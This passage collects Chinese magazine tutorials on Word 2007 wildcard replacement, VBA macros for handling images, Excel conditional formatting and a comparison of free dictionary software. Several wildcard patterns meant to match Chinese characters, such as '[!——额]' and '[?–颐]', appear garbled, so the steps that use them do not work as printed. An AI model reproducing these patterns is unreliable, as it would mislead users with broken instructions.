37人。社员平均年龄48岁，其中科技界20人，占54。

完成上述设置之后，不要忘记勾选“使用通配符”复选框，然后就可以单击“全部替换”按钮，如图16所示，很快就可以将文档中涉及百分比的“。”全部替换为“.”，而且丝毫不会涉及文档中其他的“。”。



第2步：将光标定位在“替换为”后面的文本框中，手工输入“\1.\2”，这里的“\1”和“\2”分别表示待查找的第一个和第二个表达式，


### 实例十二：拆分英文和中文

如图17所示的Word文档，现在可以看到英文单词与对应的中文释义都被录入人员排布在同一行，现在我们希望将其分开排列，也就是说英文单词位于一列，而中文释义位于另一列，这又该如何操作呢？


可能你会想到可以利用Excel的“分列”功能进行处理，首先当然是按下“Ctrl+A”组合键复制所有数据，然后将其粘贴到Excel，虽然这里的每一行内容都可以被自动分配至工作表中的每一个对应单元格，但如果执行“数据→分列”，此时我们会发现由于每个英文单词的长度不一，因此很难建立合适的分列线……

其实，这里我们可以利用“替换”功能来实现拆分的要求，只要将位于前端的中文内容替换出来就可以了。具体步骤如下：

- 第1步：在文档的最前面插入一个空行，直接按下回车键即可，目的是为了匹配查找代码，否则执行替换操作时会遗漏第一行。

- 第2步：按下“Ctrl+H”组合键，此时会打开“查找和替换→替换”对话框，单击“更多”按钮切换到高级替换模式。

- 第3步：在“查找内容”后面的文本框中输入“(^13[!——额])([——额])”，这里的“^13”表示段落标记，“[!——额]@([——额])”表示查找所有的中文汉字，当然你也可以改用其他的汉字，只要保证原文档中没有这两个字就可以了；在“替换为”后面的文本框中输入“\1^t\2”，这里的“\1”和“\2”分别表示待查找的第一个和第二个表达式，至于“^t”则表示在两个表达式之间插入一个制表符。

- 第4步：完成上述设置之后，不要忘记勾选“使用通配符”复选框，最后单击“全部替换”按钮，很快就可以完成替换，替换完成之后可以将原来的段落文本替换为一个两列的表格，并且以制表符为分隔符，效果如图18所示。


- 第5步：接下来的操作就简单多了，选中已经分隔完成的文本，切换到“插入”选项卡，依次执行“表格→文本转换成表格”，很快就可以看到图19所示的表格，是不是很方便？



当然，如果只是需要对文档进行局部处理，请首先选中该部分文本，然后再执行替换操作。

### 实例十三：去除文档中的多余空格

在日常工作中，相信绝大部分朋友应该都是使用Word作为文档编辑工具，如果文档中存在一些多余的空格字符，你是如何将其去除的呢？手工逐个删除虽然可行，但效率既低，而且也容易遗漏，其实我们可以通过“替换”的方法来实现：

- （1）替换纯中文文档中的多余空格

如果是纯中文的文档，那么去除文档中的多余空格是相当简单的。按下“Ctrl+H”组合键，此时会打开“查找和替换→替换”对话框，单击“更多”按钮切换到高级替换模式，单击“查找内容”后面的文本框，使光标出现在其中，接下来单击对话框底部的“特殊格式”按钮，从下拉菜单中选择“空白区域”，然后将“替换为”设置为空，即什么也不输入。

请取消“搜索选项”下的“区分全/半角”复选框，最后单击“全部替换”按钮，很快就可以将文档中的多余空格全部去除，是不是很简单？

- （2）替换中英文混合文档中的多余空格

在这种情况下，由于英文单词之前必须保留一个半角的空格，因此利用刚才所述的方法是行不通的了。当然，我们仍然可以使用“替换”的方法来去除文档中的多余空格，只不过是稍麻烦一些：

- 第1步：让所有字符间的空格只留一个

打开“查找和替换→替换”对话框，在“查找内容”后面的文本框中连续输入两个英文半角的空格，在“替换为”后面的文本框中输入一个英文半角的空格，连续单击“全部替换”按钮，直至Word 2007提示“已完成0处替换”，注意不要关闭“查找和替换→替换”对话框。

- 第2步：所有中文字符间的空格前出现“@”

单击“更多”按钮切换至高级替换模式，勾选“使用通配符”复选框，将查找内容设置为“[?–颐]”，注意字符串的最前面有一个英文半角的空格，“替换为”设置为“@&”，这里的“&”指查找内容，单击“全部替换”按钮执行替换操作。

此时，我们可以发现文档中所有中文字符的空格前面都会出现一个“@”的字符（如果中文字符的前面有空格的话），效果如图20所示。



> 小提示：打开“符号”对话框，选择“CJK兼容汉字”子集，可以发现第一个汉字是“一”，而最后一个汉字为“颐”，也就是说这“[?–颐]”可以指代所有汉字。

- 第3步：去除中文字符间的空格

将“查找内容”设置为“@ ”，注意“@”的后面应该有一个英文半角的空格，至于“替换为”应该设置为空，需要提醒的是不要勾选“使用通配符”复选框，最后单击“全部替换”按钮，你会发现文档的中文字符间的空格都会被全部去除，而英文字符间的空格仍然会被保留下来（见图21），是不是很有意思？



### 实例十四：去除文档中的西文字符

相信很多朋友都会从网站或论坛上复制一些自己所需要的内容，但某些站点或管理员会作出相应的限制，或者是根本不允许复制，或者是复制后出现大量的乱码字符，例如图22所示的内容，其中出现了大量无规则的西文字符，手工删除这些西文字符自然是可行之道，但显然是非常的麻烦，而且也会需要一定的时间。有没有办法利用“替换”来快速去除这些根本不需要的西文字符呢？



首先当然是按下“Ctrl+H”组合键，打开“查找和替换→替换”对话框，单击“更多”按钮切换至高级替换模式，将光标定位至“查找内容”后面的文本框中，手工输入“[^1-^127]”，这里的“[^1-^127]”表示所有西文字符，然后将“替换为”设置为空，即什么也不输入，最后当然不要忘记勾选“使用通配符”复选框，单击“全部替换”按钮，很快就可以将文档中的西文字符清除干净，效果如图23所示，是不是很简单？



### 实例十五：去除页面中的空白部分

在实际工作中，经常会看到文档窗口的右侧有许多空白的部分（见图24），如果纯粹采取手工删除的方法，那么未免也太麻烦了些。那么，有没有简单一些的方法呢？

将光标定位在第二行，然后按下Shift键，按下End键快速定位至文档的末尾，选中自第二行的所有内容，按下“Ctrl+H”组合键，此时会打开“查找和替换→替换”对话框，首先请单击“更多”按钮切换至高级替换模式，然后按照下面的提示进行设置：

查找内容：（[!。：……?!）]^13{1,}
这里的“（[!。：……?!）]^13{1,}”表示查找所有以非句号、冒号、中文省略号、问号、感叹号和右括号为结尾、硬回车符号为标志的段落，虽然正常情况下在“[]”中使用右括号是需要添加反斜杠符号的，但由于这里使用的是中文右括号，因此可以不加反斜杠符号，当然如果使用的是英文的右括号，那么就需要添加反斜杠符号了。

替换为：\1

完成上述设置之后，勾选“使用通配符”复选框，然后单击“全部替换”按钮，如果内容比较多的话，请稍等片刻，待执行完成之后，我们就可以看到图25所示的结果，感兴趣的朋友不妨一试。





### 实例十六：去除文档中的多余对象

手头有一份从网络下载的文档，其中有许多并不需要的内容，例如网站的LOGO图片、艺术字，某些页面还有水印或底纹（见图26），看起来很不顺眼，这些多余的内容该如何去除呢？这里，我们仍然是利用Word 2007的“替换”功能来完成，具体操作步骤如下：



- 1. 删除右上角的LOGO图片

按下“Ctrl+H”组合键，此时会打开“查找和替换→替换”对话框，单击“更多”按钮切换至高级替换模式，接下来将光标定位在“查找内容”后面的文本框中，从“特殊格式”的下拉菜单中选择“图形”，至于“替换为”可以设置为空，然后单击“全部替换”按钮，即可将文档右上角的LOGO图片全部删除（见图27）。

- 2. 删除非嵌入式的对象

文档中有一些艺术字和文本框，由于这些对象属于非嵌入式，删除起来其实是很方便的。右击快速访问工具栏，从快捷菜单中选择“自定义快速访问工具栏”，此时会弹出“Word选项→自定义”对话框，在“从下列位置选择命令”下拉列表框中选择“所有命令”，然后在下面的列表框中找到“选择多个对象”，双击将其添加到右侧的列表框中，确认之后即可将“选择多个对象”添加到快速访问工具栏。

现在，我们就可以单击快速访问工具栏上的“选择多个对象”按钮，注意不要全选文档，否则该按钮会呈灰色而无法使用。如图28所示，在这里勾选“全选”复选框，确认之后即可将文档中的艺术字及文本框全部选中，然后按下键盘中的Delete键即可将其删除。

- 3. 删除嵌入式对象

打开“查找和替换”对话框，切换到“替换”选项卡，将“查找内容”确定为“^g”，接下来单击“更多”按钮切换至高级替换模式，此时可以看到搜索选项、格式、特殊格式等内容，将光标定位到“替换为”文本框中，然后从“格式”下拉菜单中选择“图文框”，此时会弹出“替换图文框”的对话框，在这里根据情况选择文字环绕方式，一般是设置为“无”，单击左下角的“删除图文框”按钮。

单击“删除图文框”按钮之后，此时会自动返回“查找和替换”对话框，现在请直接单击“全部替换”按钮，至于其他的选项则不用更改，确认后可以删除文档中的嵌入式对象。

- 4. 删除水印

非常遗憾的是，文档中的水印及底纹删除起来就没有那么容易了。不过，我们可以使用另一种比较讨巧的方法来实现，右击页面任意处，从快捷菜单中打开“边框和底纹”对话框，切换至“底纹”选项卡，如图29所示，在这里将填充颜色设置为“白色,背景1”，确认之后即可删除文档中的水印。





至于文档中剩余下来的其余对象，恐怕就只能手工删除了。其实，如果要求不是太高的话，最简单的方法是打开“另存为”对话框，在“保存类型”下拉列表框中选择“纯文本”，在指定保存路径和文档名称之后，会弹出“文件转换”对话框，请在这里勾选“插入换行符”和“允许字符替换”两个复选框（见图30），这样可以不至于让所有文字连续排列，而且还可以基本保持原有的格式，感兴趣的朋友不妨一试。

当然了，Word 2007的替换功能还有更多的实用价值，感兴趣的朋友可以自行研究。

## 为你的Word 2007增加ODF格式的支持

◆文/王志军

日前，一项可以用于支持Microsoft Office XP/2003/2007的ODF开源项目已经开发完成，安装相应的转换器之后，我们可以在Microsoft Office XP/2003/2007中打开或保存为ODF格式的文档，这里以Word 2007为例进行说明。

### 一、做好安装前的准备工作

首先，请检查你的电脑是否已安装最新版本的.NET Framework开发组件（必须是2.0以上版本），这可以在微软官方站点获得，页面地址为http://www.microsoft.com/downloads/search.aspx?displaylang=zh-cn，经过简单搜索之后即可获取。另外，我们还需要分别下载用于Microsoft Word、Excel、PowerPoint 2007文件格式兼容包，当然还有兼容包的最新更新程序Microsoft Office兼容包Service Pack1，下载页面为http://office.microsoft.com/zh-cn/downloads/FX101321102052.aspx?pid=CL100570422052，逐个搜索下载回来后按照次序安装就可以了。

### 二、安装转换器加载项

接下来，请访问https://sourceforge.net/project/showfiles.php?group_id=169337&package_id=200089，在这里下载“OdfAddInForWordSetup-chs-1.1”，这是用于简体中文版本Microsoft Word的转换器加载项安装文件，文件大小为6.2MB。安装程序将检查系统中需要的各种支持程序后进入，然后会进入安装向导，请根据实际情况选择需要安装的加载项，接下来还需要选择在显示加载项消息时使用的语言，根据向导的提示很快就可以完成安装。

现在，我们就可以在主菜单下发现新增加的“ODF”子菜单，其下包括“打开ODF”和“另存为ODF”两个命令项，前者是用于打开OpenOffice格式的文档，而后者则可以将当前文档存储为OpenOffice格式的文档，其扩展名为.odt，是不是很方便？

至于其他Office组件的转换器加载项，例如Excel的转换器可以访问https://sourceforge.net/project/showfiles.php?group_id=169337&package_id=226811进行下载，适用于简体中文版本的安装程序为“OdfAddInForExcelSetup-chs-1.1.exe”，PowerPoint的转换器可以访问https://sourceforge.net/project/showfiles.php?group_id=169337&package_id=232625进行下载，适合于简体中文版本的安装程序为“OdfAddInForPPTSetup-chs-1.1.exe”，感兴趣的朋友不妨一试。

# 利用宏代码高效处理 Word文档中的图片

◆文/王志军

## 技巧一：批量更改图片版式

默认设置下，Word文档中的图片都会被设置为“嵌入型”，如果需要更改的话，可以打开“Word选项→高级”对话框，在右侧窗格的“剪切、复制和粘贴”小节中选择“将图片插入/粘贴为”，如图1所示，在下拉列表框中可以重新设置图片的版式。

> 如图1所示



不过，假如文档中需要处理的图片数量比较多，如此逐一更改版式的话，显然是太麻烦了。嵌入式的图片易于排版，而浮动式的图片则定位方便，应当说两种版式各有优缺点。这里，我们可以利用VBA宏来实现批量更改图片版式的任务。具体步骤如下：

第1步：按下“Alt+F11”组合键，打开Microsoft Visual Basic编辑器窗口，插入一个模块，手工输入如下代码：

```
Sub 图片版式转换()
Dim oShape As Variant, shapeType As WdWrapType
On Error Resume Next
If MsgBox("Y将图片由嵌入式转为浮动式,N将图片由浮动式转为嵌入式", 68) = 6 Then
    shapeType = Val(InputBox("请输入图片版式:0=四周型,1=紧密型，" & vbLf & _
    "3=衬于文字下方,4=浮于文字上方", Default:=0))
    For Each oShape In ActiveDocument.InlineShapes
        Set oShape = oShape.ConvertToShape
        With oShape
            Select Case shapeType
            Case 0, 1
                .WrapFormat.Type = shapeType
            Case 3
                .WrapFormat.Type = 3
                .ZOrder 5
            Case 4
                .WrapFormat.Type = 3
                .ZOrder 4
            Case Else
                Exit Sub
            End Select
            .WrapFormat.AllowOverlap = False  '不允许重叠
        End With
    Next
Else
    For Each oShape In ActiveDocument.Shapes
        oShape.ConvertToInlineShape
    Next
End If
End Sub
```

第2步：单击工具栏上的“保存”按钮，然后执行“文件→关闭并返回到Microsoft Word”，按下“Alt+F8”组合键，单击右侧的“运行”按钮，此时会弹出图2所示的对话框，单击“是(Y)”按钮中，随后会看到图3所示的对话框，根据自己的需要输入相应的数字，确认之后即可将文档中的图片更改为所对应的版式。

> 如图2所示

> 如图3所示

如果文档中的图片是浮动式，那么就不需要上述代码，直接打开“”对话框，然后对图片版式进行批量设置即可。





## 技巧二：批量提取图片

虽然我们可以将Word文档另存为网页的方式提取出其中的图片，但同时也会得到一些多余的图片，而且图片格式可能并不能令人满意，这里我们仍然可以通过VBA代码提取出Word文档中的图片，而且还可以自由设置导出图片的格式和保存路径。

第1步：按下“Alt+F11”组合键，打开Microsoft Visual Basic编辑器窗口，在右侧的模块窗格中手工输入如下代码，这里主要是通过PowerPoint将Word文档中的图片提取出来：

```
Sub 批量导出图片()
Dim myPPT As New PowerPoint.Application, pptSlide As PowerPoint.Slide
Dim oShape As Word.Shape, oInlineShape As Word.InlineShape
Dim myDialog As FileDialog, PicPath As String, strIpb As String, N As Integer
    Dim FileArray() As String, PicName As String, myChoose As Byte, PicType As String
    On Error GoTo ErrHandle    '若出错则进行错误处理行
    '设置图片保存的文件夹位置
    Set myDialog = Application.FileDialog(msoFileDialogFolderPicker)
    With myDialog
        .Title = "请选择保存图片的文件夹!"
        If .Show <> -1 Then Exit Sub
        PicPath = .InitialFileName
    End With
    Set myDialog = Nothing
    '设置文件名(累加)和图片格式
    strIp = InputBox("请输入您想保存的图片名称和类型,以\分隔如myPic\1:" & vbCrLf & _
                    "1=GIF 可交换的图形格式(*.gif)" & vbCrLf & _
                    "2=JPEG 文件交换格式(*.jpg) " & _
                    vbCrLf & "3=PNG 可移植网络图形格式(*.png)" & vbCrLf & "4=设置无关位图(*.bmp)" & _
                    vbCrLf & "5=Windows 图元文件(*.wmf)" & vbCrLf & "6=增强型Windows 元文件(*.emf)")
    FileArray = Split(strIp, "\")
    If UBound(FileArray) <> 1 Then GoTo ErrHandle
    PicName = FileArray(0): myChoose = CByte(FileArray(1))
    'PicType = Choose(myChoose, "GIF", "JPG", "PNG", "BMP", "WMF", "EMF")
    '新建一个空白PPT文档
    Set pptSlide = myPPT.Presentations.Add(msoCTrue).Slides.Add(1, 12)
    '隐藏Word图片工具栏
    ActiveDocument.CommandBars("Picture").Visible = False
    '分别在浮动式图形和嵌入式图形中循环,通过PPT将图形另存为指定格式
    For Each oShape In ActiveDocument.Shapes
        N = N + 1
        oShape.Select: Selection.Copy: pptSlide.Shapes.Paste
        pptSlide.Shapes(1).Export PicPath & PicName & N & "." & PicType, myChoose - 1
        pptSlide.Shapes(1).Delete
    Next
    For Each oInlineShape In ActiveDocument.InlineShapes
        oInlineShape.Range.Copy: pptSlide.Shapes.Paste
        pptSlide.Shapes(1).Export PicPath & PicName & N & "." & PicType, myChoose - 1
        pptSlide.Shapes(1).Delete
        N = N + 1
    Next
    If MsgBox("Word成功地将" & N & "个图形导出至" & PicPath & "文件夹中,是否查看这些图片?", vbYesNo) = vbYes Then _
        ActiveDocument.FollowHyperlink PicPath
ErrHandle:
    myPPT.Quit
End Sub
```

第2步：保存代码后返回Word窗口，按下 "Alt+F8" 组合键，单击右侧的 "运行" 按钮，此时会弹出一个对话框提示选择保存图片的文件夹（见图4），在这里你可以根据需要指定保存提取图片的文件路径。



第3步：现在你会看到图5所示的对话框，在这里输入图片名称和图片类型，例如 "插图\3"，确认之后即可开始提取图片，提取时间视文档中的图片数量而定，提取完成之后会提示是否立即查看，确认之后即可跳转到相应文件夹窗口查看这些提取出来的图片了。



# 让Excel 2007实现红绿灯的自动提示

◆文/王志军

我们知道，Excel 2007中增加了一个非常好用的 "条件格式" 的功能，借助这个功能，我们可以实现红绿灯的自动提示。

| C | D | E | F |
| :--- | :--- | :--- | :--- |
| 红绿灯 | 开始时间 | 结束时间 | 历时 |
| ⊙ | 2007-5-28 | | |
| ● | 2007-5-28 | 2007-6-29 | 32 |

例如图所示的工作表，这里使用符号 "⊙" 代替了红绿灯，现在的要求是希望通过判断字段 "历时" 来自动调整单元格的颜色实现红绿灯的切换，我们知道使用 "条件格式" 的前提是单元格的内容不一致时才能使用，但现在相关单元格的内容却都是完全一致的，即 "⊙"，而且条件格式也无法引用其他单元格的值来进行选择，该如何来实现红绿灯的自动提示呢？

请保证当前已切换到 "开始" 标签页，在 "样式" 区域的 "条件格式" 下拉菜单中选择 "新建规则"，打开对话框，在这里选择 "使用公式确定要设置格式的单元格"，然后在 "为符合此公式的值设置格式" 文本框中手工输入如下内容：
=AND($F2<>"",$F2<=10)
输入完成后，单击右侧的 "格式" 按钮，在随之弹出的对话框中选择绿色；确认后返回 "新建格式规则" 对话框，再次设置公式 "=AND($F2<>"",$F2>10)"，所不同的是此次应该将颜色设置为红色。

现在，我们就可以看到最后的效果，只要在 "历时" 列输入相关的数值，C列的红绿灯颜色就可以自动调整，是不是很方便？

# 利用替换功能实现备选项的完美对齐

在实际工作中，我们可能会涉及到备选项的对齐问题，特别是教师朋友在出试卷时更是如此，而标准化考试中几乎更是清一色的选择题，无论是单选题或是多选题，一般至少会有至少3个以上的备选项。

◆文/王志军

考虑到试卷的规范性和美观性，一般都会要求将这些备选项对齐，如果使用空格键实现“硬对齐”，既麻烦而且也容易出错。其实，我们可以通过“替换”来实现备选项的完美对齐，这里以Word 2007为例进行说明，Word 2003的操作步骤与其基本相同：

第一步：替换半角的“.”为全角“.”

正常情况下，各个备选项的编号都会使用大写的英文字母，即A、B、C、D，但由于种种原因，备选项编号与后续文本间的分隔符可能并未统一，如图1所示，可以看到有些备选项的编号后面使用“、”，有些则使用全角的“.”，有些使用半角的“.”，这样就会给后续的处理工作带来不便，因此我们首先需要将这些分隔符统一为全角的“.”。



按下“Ctrl+H”组合键，打开“查找和替换→替换”对话框，单击“更多”按钮切换至高级替换模式，将“查找内容”设置为“([A-Z])\.”，这里的“([A-Z])”表示从“A”至“Z”的所有大写字母，添加括号的目的是将其视作一个完整的表达式，其后的“\.”是半角；“替换为”设置为“\1.”，这里的“\1”表示“查找内容”框的第一个表达式，注意这里的“.”是全角，勾选“使用通配符”复选框，最后单击“全部替换”按钮，很快就可以将所有半角的“.”替换为全角的“.”（见图2）。



第二步：替换“、”为全角的“.”

完成替换之后，不要关闭替换对话框，将查找内容设置为“([A-Z])、”，“替换为”不需要进行更改，再次执行全部替换的操作，目的是将所有备选项后面的分隔符“、”替换为全角的“.”，替换效果如图3所示。


各个备选项的分隔符统一为全角的“.”，接下来的工作就轻松多了。

第三步：删除备选项中的多余空格

仔细检查后，可以发现各个备选项的分隔符与文本之间，竟然还存在数量不等的若干空格，看起来颇为不美，而且也不利于备选项的完美对齐操作。

这里，我们仍然可以利用替换功能快速清除这些不相干的空格，不要关闭刚才的替换对话框，将查找内容设置为“([A-Z])\. ”，注意这里的空格字符请从文档中复制过来，如果直接输入的话是不行的，“替换为”则不需要进行更改，单击“全部替换”按钮，很快就可以删除备选项中的多余空格（见图4），考虑到某些备选项分隔符与文本之间有多个空格，请连续单击“全部替换”按钮，直至提示“word已完成对文档的搜索并已完成0处替换”为止。



第四步：为除“A”之外的备选项添加制表符

为了实现备选项的对齐，我们需要为除了“A”之外的备选项添加制表符。仍然打开替换对话框，将查找内容设置为“[B-Z]\.”，表示查找自“B”至“Z”范围内所有后面带有全角“.”的大写英文字母，“替换为”设置为“^t&”，这里的“^t”表示制表符，而“&”则代表查找到的内容，同样勾选“使用通配符”复选框，替换后可以完成添加制表符的工作（见图5）。



如果你的文档没有显示制表符的效果，可以打开“Word选项→显示”对话框，在“始终在屏幕上显示这些格式标记”小节中勾选“制表符”复选框。

> 小提示 如果实际文档中备选项的分隔符与文本之间不存在空格，那么这一步骤可以省略。

第五步：选中备选项段落

选中所有选择题，按下“Ctrl+F”组合键，打开“查找和替换→查找”对话框，将查找内容设置为“A.*^13”，表示查找以大写字母A开头的段落，直至段落标记；在“阅读突出显示”下拉列表中选择“全部突出显示”，仍然勾选“使用通配符”复选框，单击“查找全部”按钮，我们会看到图6所示的信息，这表示所有备选项段落已经被选中。



第六步：设置制表位

打开“段落”对话框，单击左下角的“制表位”按钮，打开“制表位”对话框，在“制表位位置”下面的文本框中输入“10”，然后单击“设置”按钮，然后按照同样的步骤设置20字符、30字符的制表位（见图7），当然你也可以根据实际情况设置为其他大小的制表符，确认退出之后即可。
完成上述工作之后，现在我们可以看到所有的备选项已经按照所设置的制表位自动对齐，感兴趣的朋友不妨一试。


# 利用Word 2007完成数据统计

◆文/王志军

可能很多朋友并不清楚，其实我们并不需要借助Excel，Word自身也同样可以完成数据的简单统计，例如我们可以对图1所示的文档统计出“基本工资”与“岗位工资”均大于1100元的员工人数，这里以Word 2007为例进行说明。

**××××××有限公司员工花名册**
| 序号 | 员工基本信息 | 性别 | 学历 | 岗位或职称 | 身份证号 | 参加工作时间 | 基本工资 | 岗位工资 |
|---|---|---|---|---|---|---|---|---|
| 15 | 韩 | 男 | 本科 | 工程师 | 320525196405070003 | 1983年4月 | 550 | 2024 |
| 16 | 杨 | 男 | 大专 | 行政 | 320526196503100050 | 1992年12月 | 1050 | 440 |
| 17 | 朱 | 女 | 大专 | 行政 | 320527195504010037 | 1977年6月 | 400 | 1408 |

## 一、利用数据库进行简单查询

打开“Word选项→自定义”对话框，将“从下列位置选择命令”设置为“所有命令”，找到“插入数据库”，双击将其添加到右侧的列表框中，确认之后即可将其添加到快速访问工具栏。然后按照下面的步骤进行操作：

第1步：关闭已打开的文档，新建一个空白文档。
如果你使用的是Word 2003，那么可以右击工具栏空白处，勾选“工具栏→数据库”，即可将相应工具栏激活。
第2步：单击快速访问工具栏上的“插入数据库”按钮，此时会打开对话框，这里的许多按钮暂时呈灰色而无法使用。单击“获取数据”按钮，此时会打开“选择数据源”对话框，指定需要处理的文档，确认后会返回“数据库”对话框，此时可以看到这里所有的按钮已经都可以使用。

第3步：单击“查询选项”按钮，此时会打开“查询选项”对话框，在“域”下拉列表框中选择“基本工资”，将“比较条件”设置为“大于”，“比较对象”自然是“1100”，然后再对“岗位工资”进行同样的设置，确认后返回“数据源”对话框，单击“插入数据”按钮，我们会看到图2所示的查询结果。

| 序号 | 员工基本信息 | 性别 | 学历 | 岗位或职称 | 身份证号 | 参加工作时间 | 基本工资 | 岗位工资 |
|---|---|---|---|---|---|---|---|---|
| 1 | 赵 | 女 | 中专 | 行政 | 320511194607120060 | 1968年8月 | 1250 | 1320 |
| 13 | 蒋 | 女 | 中专 | 技工 | 320523198110160087 | 2006年7月 | 1200 | 1232 |
| 20 | 许 | 男 | 大专 | 行政 | 320530196407220028 | 1989年8月 | 1200 | 1232 |
| 33 | 戚 | 男 | 中专 | 技工 | 320543197412290008 | 2000年6月 | 1150 | 1760 |

## 二、利用公式进行统计

如果需要对刚才的查询结果取得记录总数，那么可以使用公式进行统计。具体步骤如下：

第1步：首先我们需要为当前表格增加一个空白行，并将光标定位到此空白行的左侧第二列单元格中，此空白行的位置可以任意，例如最顶端或末尾。
第2步：切换到“布局”选项卡，单击“数据”功能组中的“公式”按钮，打开“公式”对话框，单击“粘贴函数”列表框旁边的下拉箭头，在这里选择“COUNT”函数，此时可以看到“公式”下面的文本框中显示为“=COUNT()”。
第3步：确保当前输入状态为英文半角状态，在“()”中手工输入“A:A”，它表示统计表格A列（左起第一列）中包含数据的单元格数量，当然你也可以输入“F:F”或“G:G”。确认之后，Word将向光标处插入一个公式域并显示记录总数。

随着2008年掀起的奥运会热浪，词典翻译软件的新闻也层出不穷：金山、灵格斯、网易等公司纷纷推出免费词典，谷歌金山词霸、灵格斯翻译家、有道桌面词典、雅虎乐译、Babylon等优秀软件接踵而来。这些软件在功能、界面上都有很大的改进，尤其在网络翻译、词典库、多语种等方面都给用户带来了惊喜。不过，它们给用户带来方便的同时，也给用户选择带来了困惑：到底哪一款软件才是最合适的呢？“切磋才知真功夫”，下面，我们精选了六款优秀的词典翻译软件，根据用户操作习惯，从界面操作及资源占用、词典查询及取词能力、翻译能力、网络平台支持及离线功能、辅助功能等方面进行综合比较。

## 让沟通更轻松：免费词典翻译软件大比拼

◆文/彭文波

软件版本及下载地址如下：

| 软件名称 | 版本 | 大小 | 下载地址 |
| :--- | :--- | :--- | :--- |
| 灵格斯词霸 | V2.4.5c | 2.8M | http://www.lingoes.cn |
| 谷歌金山词霸2008 | V1.8 | 24.7M | http://g.iciba.com |
| 星际译王 | V3.0.1 | 13.3M | http://stardict.sourceforge.net/cn/ |
| 雅虎乐译 | V1.5.3 | 0.99M | http://soft.cn.yahoo.com/ly |
| 巴比伦中文免费版 | V7 | 5M | http://www.babylon.com |
| 有道桌面词典 | V1.2 | 2.8M | http://cidian.youdao.com |

### 一、界面操作及资源占用

对于普通用户来说，简洁、友好而方便的软件界面往往会起到事半功倍的效果。尤其是日常操作比较频繁的词典翻译软件，简明直观的操作能够明显提高工作效率。此外，作为辅助性的工作、学习软件，所占用的资源越少，越会赢得更多用户的青睐。因此，在第一部分，我们主要从界面操作和资源占用两方面进行分析。

灵格斯词典界面错落有致，操作十分方便。软件采用了一只绿色的小鹦鹉作为图标，看上去十分可爱。打开软件后，可以看到一个浅蓝色的界面。界面上方是输入窗口，界面左侧分别是：词句索引、高级设置以及附录工具。为了方便用户操作，界面中间及右下方还列出了一些常用的工具按钮，并突出了“全文翻译”按钮。如果用户对当前风格不太满意，还可以直接在设置界面中更改用户界面和查询结果界面。默认界面如图1所示。


谷歌金山词霸的界面采用了窄长的字典形状，和日常生活中所用的词典外观比较类似。在模式和颜色配置上，谷歌金山词霸提供了多种风格，包括：标准模式，精简模式，粉色、灰白、白色、土黄、土红等。在默认的精简模式中，界面上方主要有三个选项卡，分别是：词典、例句和翻译。单击某个选项卡，在下方即可看到相应的输入窗口。为了突出谷歌和金山词霸的合作，软件还特意在文本框后面添加了一个“搜索”按钮。相对而言，主界面下方的空间则有点“奢侈”，排满了和英语学习相关的资料链接，如文学、口语、电影、音乐、BBC等。此外，用户还可以对“词典/例句”、“阅读样式”、“屏幕取词”、“语音”、“在线更新”、“热键”、“生词本”等进行详细设置。如图2所示。

星际译王是目前很受网友追捧的一款软件，软件号称“完全免费的Linux、Windows跨平台国际词典软件”。软件默认界面为橄榄色风格，几乎没有多余的“骚扰”元素。在界面上方，是词句输入窗口；左侧分别是索引、向导、全文翻译、分组词典等选项卡；右侧则是详细的词句解释窗口。与其他词典软件不同的是，软件单词列表采用了符合人脑思维的树状结构，单击某个分支，即可得到某一方面的详细解释。如图3所示。





### 小知识：

星际译王是利用GTK（GIMP TOOLKIT）开发的国际化的、跨平台的词典工具。GTK是一个图形用户编程的接口工具，它注册完全免费，所以用来开发自由软件或商业软件成本都比较低。安装之前，首先需要安装GTK+环境。GTK+是将GTK、GDK、Glib集成在一起的开发包，多用在Linux/UNIX平台上开发图形界面。

凭借雅虎公司强大的网络人气，“雅虎乐译”自然也是来头不小。软件采用了一个可爱的金黄色小鱼作为图标。默认界面十分简单，上方依次是字典、翻译和搜索选项卡。由于将搜索单独作为一个选项卡，因此界面上十分清洁。为了便于用户学习，在右上方还专门突出了“生词本”按钮。如图4所示。



来自以色列的巴比伦babylon中文免费版很懂得迎合中国人的口味，软件采用了大红色风格，界面更是简单到了极致，输入框和翻译文本框直接展示在一个界面中。当然，老外也知道开放的中国并不仅仅喜欢红色。在右上方列出了一个“选项”按钮，用户可以在这里对软件进行外观的颜色设置。不过，在安装过程当中，如果选择推荐的“快速安装”，软件会将babylon网站设为默认的搜索引擎，并安装浏览器工具栏。



不过，天下没有免费的午餐，巴比伦在界面下方有一大段广告，比较容易干扰用户操作。如图5所示。

来自网易公司的“有道桌面词典”更像一个简洁的搜索引擎。默认界面采用了淡绿色风格。在上方依次排列了：文本输入框、查词按钮、搜索按钮，并没有突出全文翻译功能。整体界面明显过于简单。在安装过程中，有道桌面词典会提示是否安装工具栏，如果选择安装有道工具条，软件还会进一步提示是否启用网页“评分”功能。如图6所示。



为了测试上述六款软件的资源占用状况，在同一台电脑上，同时打开上述六款软件。然后，通过Windows任务管理器来查看资源占用情况。如图7所示。



通过比较可以看出，简洁的界面、内容检索方便是目前词典翻译软件的主流风格，但这两者又是一个互相矛盾的关系。因此，为了达到视觉和操作的平衡，软件设计者也挖空心思，尽量在有限的界面中展示更多的内容。在界面操作与资源占用方面，表现比较突出的有：灵格斯词霸、谷歌金山词霸、星际译王、雅虎乐译。不过，体积较大的谷歌金山词霸所占用的资源也略多。第一回合评价如下：

| 软件名称 | 界面及操作 | CPU | 内存 | 总体评价 |
| :--- | :--- | :--- | :--- | :--- |
| 灵格斯词霸 | ★★★★☆ | 2% | 3160K | ★★★★☆ |
| 谷歌金山词霸 | ★★★★☆ | 2% | 15360K | ★★★★☆ |
| 星际译王 | ★★★★☆ | 0 | 15660K | ★★★★☆ |
| 雅虎乐译 | ★★★☆☆ | 0 | 6224K | ★★★☆☆ |
| 巴比伦中文免费版 | ★★★☆☆ | 0 | 21228K | ★★★☆☆ |
| 有道桌面词典 | ★★☆☆☆ | 0 | 3420K | ★★☆☆☆ |

### 二、实战评测：

所谓词典，就是汇集语言里的词语，按一定顺序编排，逐一解释，供人检索查阅的工具书。因此，评价一部词典，首先就要考虑其权威性、专业性和丰富性，这需要有强大的词典库作为基础。同时，还需要更多地考虑查询的方便性，即：“找得到、找得准、找得快”。

### 1. “选择多”：词典库功能

#### (1) 灵格斯

